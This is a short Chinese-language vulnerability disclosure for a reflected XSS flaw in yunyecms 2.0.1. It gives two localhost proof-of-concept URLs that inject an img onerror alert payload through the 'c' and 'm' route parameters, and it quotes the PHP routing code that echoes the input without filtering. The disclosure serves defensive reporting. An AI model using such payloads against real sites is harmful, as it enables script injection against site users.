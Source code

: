 yunyecms前台存在反射型xss漏洞

http://127.0.0.1/yunyecms2.0.1/index.php?a=login&c=member&m=%3Cimg%20src=1%20onerror=alert`ss`%3E

http://127.0.0.1/yunyecms2.0.1/index.php?a=login&c=%3Cimg%20src=1%20onerror=alert`ss`%3E

![image-20250331170833767](image/image-20250331170833767.png)

代码分析：

![image-20250331210440628](image/image-20250331210440628.png)

可以看到输入c=xxx或者m=xxx时候,会将输入内容返回到页面上

所以定位

```
	private function load_controller($filename = '', $m = '') {
		if (empty($filename)) $filename = ROUTE_C;
		if (empty($m)) $m = ROUTE_M;
		$filepath = YUNYECMS_CORE.'app'.DIRECTORY_SEPARATOR.$m.DIRECTORY_SEPARATOR.$filename.'.php';
		if (file_exists($filepath)) {
			$classname = $filename;
			include $filepath;
			if(class_exists($classname)){
				return new $classname;
			}else{
			  exit('Controller file '.$filepath.' does not exist.');
 			}
		} else {
			exit('Controller file '.$filepath.' does not exist.');
		}
	}
}
```

$filename = '', $m = '',报错时会回显到页面，$filename = ROUTE_C; $m = ROUTE_M;跟进 ROUTE_C，ROUTE_M

```
if(empty($path)){
				$var["m"] = ROUTE_M;
				$var["c"] =
                    ROUTE_C;
                $var["a"] = ROUTE_A;
			}else{
				$pathsize=count($path);
				switch($pathsize){
					case 1: 
					$var["m"] = ROUTE_M;
					$var["c"] = ROUTE_C;
					$var["a"] = strtolower(array_pop($path));
					break;
					case 2:
					$var["m"] = ROUTE_M;
					$var["c"] = strtolower(array_pop($path));
					$var["a"] = strtolower(array_pop($path));
					break;
					case 3:
					$var["m"] = strtolower(array_pop($path));
					$var["c"] = strtolower(array_pop($path));
					$var["a"] = strtolower(array_pop($path));
					break;
				}
			}
```

输出无过滤。
